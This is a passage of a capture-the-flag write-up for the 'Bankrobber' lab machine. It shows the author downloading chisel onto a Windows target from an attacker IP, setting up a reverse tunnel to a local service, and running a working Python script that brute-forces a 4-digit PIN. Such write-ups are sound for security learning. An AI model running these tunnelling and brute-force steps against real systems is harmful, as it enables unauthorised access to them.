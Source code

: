 ```bash
# kali
# install chisel
sudo apt-get install chisel
gunzip chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 chisel_windows_amd64.exe
```

```powershell
# rhost
cd C:\Users\Cortin\AppData\Local\Temp
powershell -c "wget 10.10.14.5/chisel_windows_amd64.exe -o c.exe"
```

```bash
# kali
chisel server -p 8000 --reverse
```

Now `chisel` is listening on 8000, and will allow reverse tunnels, which is what I’ll create next:

```cmd
c.exe client 10.10.14.5:8000 R:910:localhost:910
```

This will create a listener on my local box on port 910, which will forward traffic through chisel to localhost on Bankrobber port 910.

![[Bankrobber-30.png]]

And I can test the tunnel with `nc`:

```bash
nc localhost 910
```

![[Bankrobber-31.png]]

Very Nice.

### Brute Force Pin

I’ll write a Python script to brute force the pin. It will use `socket` to connect to localhost:910, send the pin and a newline, and check for “Access denied” in the response. If it’s not there, It will print the pin and break. To make it a bit neater, I’ll add a line that prints the current number being tried, overwriting itself each time to not flood my screen:

```bash
vim bruteforce.py
```

```python
#!/usr/bin/env python3

import socket
import sys


for i in range(10000):
    sys.stdout.write(f"\rTrying: {i:04d}")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('localhost', 910))
    s.recv(4096)
    s.send(f"{i:04d}\n".encode())
    resp = s.recv(4096)
    if not b"Access denied" in resp:
        print(f"\rFound pin: {i:04d}")
        break
    s.close()
```
